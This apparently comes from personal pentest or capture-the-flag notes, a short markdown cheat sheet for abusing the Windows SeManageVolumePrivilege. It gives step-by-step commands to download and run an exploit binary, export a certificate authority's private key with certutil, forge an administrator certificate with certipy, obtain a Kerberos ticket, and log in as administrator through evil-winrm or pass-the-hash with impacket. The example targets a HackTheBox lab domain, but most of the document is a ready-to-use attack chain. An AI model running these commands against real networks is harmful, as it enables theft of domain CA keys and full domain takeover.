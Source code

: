 # SeManageVolumePrivilege
SeManageVolumePrivilege (Display name: "Perform volume maintenance tasks") is a Windows privilege that allows a user to perform administrative-level operations on storage volumes without needing full Administrator access.

Think of it as being the "storage system administrator" - you can't change user permissions or install software, but you have master keys to work with the hard drives and file systems at a very low level.

# steps
1. Download the Exploit Binary and upload it
2. Create a temp directoty.
3. Export the Certificate and Download it
4. After perform a forge ticket attack
5. Get the TGT and login it

# Download it
```language
wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe
upload SeManageVolumeExploit.exe
```
# Make a directory and Execute the exe
```language
.\SeManageVolumeExploit.exe

mkdir C:\tmp
cd C:\tmp
```
# Export certificate and Download 
```language
certutil -exportPFX my "CA Name" C:\tmp\out.pfx

For Example:-
certutil -exportPFX my "Certificate-LTD-CA" C:\tmp\get.pfx

download get.pfx
```
# Forge ticket 
```language
certipy forge -ca-pfx input.pfx -upn administrator@$domain -subject "<admin OU>" -out out.pfx

for Example:-
certipy forge -ca-pfx get.pfx -upn administrator@$certificate.htb -subject "CN=Administrator,CN=Users,DC=certificate,DC=htb" -out out.pfx
```
# Get the TGT
```language
certipy auth -pfx out.pfx -dc-ip $ip  
```
# login it
```language
evil-winrm -i $ip -u "administrator" -H $hash

rlwarp impacket-wmiexec domain/user@<ip> -hashes :<hash>
```
